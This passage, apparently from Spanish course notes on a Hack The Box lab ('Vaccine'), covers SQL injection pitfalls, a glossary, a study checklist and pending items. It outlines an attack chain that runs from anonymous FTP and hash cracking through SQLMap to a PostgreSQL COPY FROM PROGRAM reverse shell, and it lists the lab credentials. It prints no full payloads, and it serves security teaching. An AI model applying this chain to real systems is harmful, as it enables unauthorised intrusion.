- Si John ya resolvió el hash, usar --show en lugar de interpretar la ausencia de cracking como un fallo.
- Una URL protegida por login no funcionará con SQLMap sin contexto de sesión: aportar cookie o request completa.
- Las cookies pueden cambiar o caducar. En la clase, la cookie fue una de las causas sospechadas cuando --os-shell dejó de funcionar en la instancia del profesor.
- ORDER BY debe encontrar el límite exacto: el índice máximo válido es el número de columnas; uno más debe fallar.
- NULL es útil al construir UNION SELECT porque reduce conflictos de tipo al principio, pero después hay que identificar tipos reales y columnas reflejadas.
- SQLMap puede generar mucho tráfico. Automatizar no significa disparar opciones agresivas sin necesidad.
- Una SQLi no implica RCE: se requieren funciones del DBMS y privilegios adecuados.
- No se realizó escalada de privilegios; no mezclar el acceso inicial obtenido con una toma de control completa del sistema.

# 19. Glosario

| **Término** | **Definición** |
| --- | --- |
| SQL Injection (SQLi) | Vulnerabilidad en la que entrada controlada por el usuario altera la estructura o lógica de una consulta SQL. |
| Error-based SQLi | Técnica que aprovecha mensajes de error del DBMS para detectar o extraer información. |
| UNION SELECT | Operador que combina resultados de consultas compatibles; en SQLi se usa para proyectar datos controlados/extraídos en la respuesta. |
| ORDER BY | Cláusula de ordenación que puede usarse para inferir el número de columnas de una consulta vulnerable. |
| Stacked queries | Ejecución de varias sentencias SQL separadas por punto y coma cuando el contexto/DBMS lo permite. |
| DBMS | Sistema gestor de base de datos. En esta sesión: PostgreSQL. |
| Schema | Espacio lógico dentro de una base de datos PostgreSQL, como public o pg\_catalog. |
| Hash | Huella unidireccional. No equivale a cifrado reversible. |
| MD5 | Función hash rápida y obsoleta para almacenar contraseñas. |
| Cracking local | Prueba de contraseñas contra un hash/archivo almacenado en el equipo propio, sin golpear repetidamente el servicio remoto. |
| Burp Repeater | Módulo para reenviar manualmente peticiones HTTP modificadas y comparar respuestas. |
| Cookie de sesión | Valor que mantiene el estado autenticado del navegador; SQLMap necesita recibirla si el endpoint está protegido. |
| COPY FROM PROGRAM | Funcionalidad PostgreSQL que ejecuta un programa en el servidor y usa su salida como entrada de COPY, con privilegios restringidos. |
| RCE | Remote Code Execution: capacidad de ejecutar comandos/código en el sistema remoto. |
| Reverse shell | Shell iniciada desde el objetivo hacia el equipo del auditor, normalmente a una IP/puerto en escucha. |
| HttpOnly | Atributo de cookie que impide su acceso directo desde JavaScript del navegador, mitigando determinados escenarios de robo mediante XSS. |

# 20. Resumen de estudio y checklist

|  |
| --- |
| **Idea en una frase —** La sesión recorrió una cadena completa: enumerar → obtener backup → recuperar credenciales → acceder al dashboard → detectar SQLi → automatizar con SQLMap → comprender el proceso manual → convertir una SQLi PostgreSQL privilegiada en ejecución de comandos y reverse shell. |

- ☐ Puedo explicar por qué FTP anónimo fue prioritario frente a SSH.
- ☐ Sé para qué sirve zip2john y por qué John trabaja sobre su salida.
- ☐ Entiendo la diferencia entre el código visible en el navegador y el PHP recuperado de un backup.
- ☐ Sé por qué MD5 no es adecuado para almacenar contraseñas y cómo se verificó qwerty789.
- ☐ Puedo detectar una SQLi básica usando una comilla y observar el error.
- ☐ Entiendo qué hace OR 1=1 y por qué se comenta el resto de la query.
- ☐ Sé determinar el número de columnas con ORDER BY: 5 funciona y 6 falla.
- ☐ Entiendo por qué se empieza UNION SELECT con NULL y después se prueban tipos/columnas reflejadas.
- ☐ Sé usar Burp Repeater para conservar y modificar la request autenticada.
- ☐ Entiendo cuándo SQLMap necesita --cookie y cuándo es más cómodo usar -r.
- ☐ Conozco el flujo --dbs → --tables → columnas/dump.
- ☐ Sé diferenciar --os-cmd de --os-shell.
- ☐ Puedo explicar por qué COPY FROM PROGRAM puede ejecutar comandos y qué requisito de privilegios existe.
- ☐ Sé reconstruir conceptualmente el payload DROP → CREATE → COPY PROGRAM → comentario.
- ☐ Sé que la reverse shell fue confirmada, pero no hubo escalada de privilegios.

# 21. Pendientes y continuidad

| **Pendiente** | **Estado / siguiente acción** |
| --- | --- |
| SQLi manual completa | Continuar en la siguiente sesión con tipos de datos, columnas reflejadas, UNION SELECT y extracción manual. |
| Máquina posterior | El profesor anticipó una máquina “Good Games” después de consolidar Vaccine/manual SQLi. |
| ZIP password | No quedó legible en el material; solo registrar si aparece en una captura/transcripción futura. |
| Hash MD5 completo | No quedó aportado; no inventarlo. |
| Listener netcat | No quedaron todos los flags; completar solo si se aporta evidencia. |
| Versiones exactas de servicios | No quedaron completas; no asociar CVE ni versión vulnerable sin evidencia. |
| Escalada de privilegios | No forma parte de esta sesión. |

# 22. Actualización de memoria del proyecto

| **Categoría** | **Información nueva** | **Nivel de certeza** | **Acción futura** |
| --- | --- | --- | --- |
| Sesión | SQLi - Inyecciones - Labs I · Carlos Castillo · 08/09/2026 | Alta | Conectar con la siguiente sesión de SQLi manual. |
| Laboratorio | HTB Starting Point; máquina identificada por contexto como Vaccine | Media | Confirmar nombre con captura de HTB si se necesita trazabilidad estricta. |
| Servicios | 21/FTP, 22/SSH, 80/HTTP; FTP anónimo con backup.zip | Alta | Reutilizar como cadena metodológica de enumeración. |
| Credenciales web | admin / qwerty789 | Alta | Usar solo como evidencia histórica de este lab. |
| SQLi | Parámetro search vulnerable; 5 columnas; PostgreSQL | Alta | Completar explotación manual paso a paso. |
| RCE | COPY FROM PROGRAM utilizado manualmente para reverse shell | Alta | Relacionar con mínimo privilegio del usuario DB. |
| Herramientas | Nmap, FTP, zip2john, John, CrackStation, CyberChef, Burp Repeater, Cookie Editor, SQLMap, Netcat | Alta | Actualizar niveles si vuelven a aparecer en sesiones posteriores. |
| Pendientes | ZIP password, MD5 completo, versiones exactas y flags de netcat no conservados | Alta | No completar por memoria externa ni suposición. |

# 23. Fuentes utilizadas

- Contenido de clase: transcripción completa de la sesión y capturas aportadas por Chema en esta conversación.
- Verificación técnica externa separada: documentación oficial de sqlmap (Usage) y PostgreSQL (COPY).

|  |
| --- |
| **Control de calidad —** No se han añadido IP, hashes, flags, CVE, versiones, contraseñas o resultados que no estuvieran respaldados por el material. Los puntos no conservados se han marcado como pendientes. |
